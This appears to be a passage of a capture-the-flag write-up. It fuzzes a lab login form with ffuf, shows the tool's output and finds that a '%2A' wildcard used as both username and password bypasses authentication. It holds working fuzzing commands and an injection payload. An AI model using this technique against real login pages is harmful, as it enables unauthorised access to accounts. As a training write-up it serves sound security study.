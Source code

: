 `ENCLIST=./urlencoded_wordlist.txt`

`ffuf -w $ENCLIST:FUZZ -u http://$RADDR/login  -X POST -d 'username=FUZZ&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -t 80 -c -o ffuf-output -of html -fc 307`

![Screenshot 2021-10-07 14:28:22](Screenshot%202021-10-07%2014:28:22.png)

That is a LOT of results.

After running the above with a verbose flag, I realized that all of the **unsuccessful requests have the string "Authentication failed"**, so I filtered out that string from the result (filter the substring "fail"):

`ffuf -w $ENCLIST:FUZZ -u http://$RADDR/login  -X POST -d 'username=FUZZ&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -t 80 -c -o ffuf-output -of html -fc 307 -v -fr fail`

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3


​       
        :: Method           : POST
     :: URL              : http://159.65.59.85:31498/login
     :: Wordlist         : FUZZ: ./urlencoded_wordlist.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Data             : username=FUZZ&password=FUZZ
     :: Output file      : ffuf-output
     :: File format      : html
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 80
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405
     :: Filter           : Response status: 307
     :: Filter           : Regexp: fail

    ________________________________________________

    [Status: 302, Size: 0, Words: 1, Lines: 1]                                                                                                                                                           
    | URL | http://159.65.59.85:31498/login
    | --> | /
        * FUZZ: %2A

    [Status: 302, Size: 0, Words: 1, Lines: 1]                                                                                                                                                           
    | URL | http://159.65.59.85:31498/login
    | --> | /login?message=Authentication%20Failed

       * FUZZ:
Well that looks pretty definitive!
We simply use %2A for both the username and password. This is the wildcard character (*).
